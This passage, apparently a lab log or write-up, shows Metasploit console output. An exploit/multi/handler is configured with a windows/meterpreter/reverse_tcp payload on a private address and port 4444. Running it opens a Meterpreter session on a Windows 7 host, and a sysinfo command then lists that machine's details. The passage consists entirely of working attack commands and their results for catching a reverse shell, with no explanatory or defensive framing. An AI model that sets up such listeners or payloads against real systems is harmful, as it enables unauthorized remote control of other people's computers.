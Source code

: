 ```
> options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process
   LHOST     192.168.38.140   yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target
```



And it is successful:

```
> exploit

[*] Started reverse TCP handler on 192.168.38.140:4444 
[*] Sending stage (180291 bytes) to 192.168.38.141
[*] Meterpreter session 3 opened (192.168.38.140:4444 -> 192.168.38.141:49181) at 2020-04-15 08:54:46 -0700


meterpreter > 
meterpreter > sysinfo
Computer        : HAMID-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : H
Logged On Users : 0
Meterpreter     : x86/windows
```

